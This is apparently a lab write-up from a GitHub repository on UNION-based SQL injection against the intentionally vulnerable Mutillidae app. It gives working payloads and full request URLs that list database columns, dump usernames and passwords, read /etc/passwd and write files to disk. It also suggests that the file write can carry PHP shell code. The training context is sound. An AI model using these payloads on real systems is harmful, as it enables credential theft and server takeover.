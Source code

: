 In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/c3e334bb-af03-442e-b067-dbe98229db33)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/d20732ca-eac8-49ab-8ad0-b2de125d17d2)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![244885903-f7dd79fb-c11c-41f3-8019-06685e9cd759](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/b7274578-5315-4e8b-ba5f-0453ef3bb1ea)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![244885909-13f4a113-06fc-4d62-a8ec-6525c4ec1343](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/4b58822c-a6f8-41c0-8aad-4d7775809d68)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
